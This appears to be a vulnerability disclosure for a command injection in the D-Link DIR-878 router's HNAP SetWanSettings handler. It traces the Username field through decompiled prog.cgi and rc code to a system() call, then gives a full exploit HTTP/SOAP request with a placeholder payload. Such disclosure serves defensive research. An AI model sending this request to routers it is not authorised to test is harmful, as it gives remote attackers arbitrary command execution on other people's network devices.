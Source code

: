 ## DIR-878 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-878

### Affected version

D-Link DIR-878  FW1.20B05 and FW1.10B05 was found to contain a command injection in `/HNAP1/SetWanSettings` of the component Web Interface `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/SetWanSettings`. Attackers can control `v103` by setting the `Username` , then the program will pass `v103` to function `sub_464134`. Through inter-process communication, the parameter is finally passed to the `rc` program to complete the system call

```
In func sub_464680 of prog.cgi:
v103 = (const char *)webGetVarString(a1, "/SetWanSettings/Username");
trace(3, "‐‐‐‐‐‐‐‐pUser:%s pstPass:%s‐‐‐‐‐‐‐‐‐‐‐\n", v103, v104);
v72 = sub_464134(0, v77, v107, v108, v109, v103, v127, v105, v106, v80, v
 81, v110, v71);
 
 In func sub_464134 of prog.cgi:
 nvram_safe_set("wan_wan0_vpn_username", a6);
 
 In start_wan of rc:
 v83 = (const char *)nvram_safe_get("wan_wan0_vpn_username");
 sprintf(v190, "echo '%s * %s *'>/tmp/ppp/chap‐secrets", v83, v84);
 system(v190)
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `Username`.

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 580
Accept: text/xml
HNAP_AUTH: 6EA57BC3825CEF9821DC8A2C46035271 1827139043216
SOAPACTION: "http://purenetworks.com/HNAP1/SetWanSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: text/xml
Origin: http://192.168.0.1
Referer: http://192.168.0.1/WanSettings.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=bgeGaHlw
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWanSettings xmlns="http://purenetworks.com/HNAP1/">
			<Type></Type>
			<Username>payload</Username>
			<Password></Password>
			<MaxIdleTime></MaxIdleTime>
			<HostName></HostName>
			<VPNIPAddress></VPNIPAddress>
			<VPNSubnetMask></VPNSubnetMask>
			<VPNGateway></VPNGateway>
			<ServiceName></ServiceName>
			<AutoReconnect></AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask></SubnetMask>
			<Gateway></Gateway>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU></MTU>
			<DsLite_Configuration></DsLite_Configuration>
			<DsLite_AFTR_IPv6Address></DsLite_AFTR_IPv6Address>
			<DsLite_B4IPv4Address></DsLite_B4IPv4Address>
		</SetWanSettings>
	</soap:Body>
</soap:Envelope>
```


